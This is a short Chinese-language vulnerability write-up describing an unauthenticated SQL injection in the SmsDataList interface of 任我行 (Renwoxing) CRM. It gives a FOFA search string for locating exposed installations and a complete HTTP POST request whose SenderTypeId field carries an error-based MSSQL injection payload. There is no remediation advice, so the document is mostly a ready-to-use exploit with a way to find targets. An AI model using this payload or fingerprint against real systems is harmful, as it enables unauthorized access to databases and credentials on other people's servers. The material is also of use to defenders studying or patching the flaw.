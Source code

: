# 任我行CRM系统SQL注入漏洞

## 1.漏洞描述

任我行 CRM SmsDataList 接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

## 2.搜索语法

```plain
fofa："欢迎使用任我行CRM"
```

## 3.漏洞复现

```plain
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2024-06-17&EndSendDate=2024-06-17&SenderTypeId=0000000000'and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![image-20240617173049947](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240617173049947.png)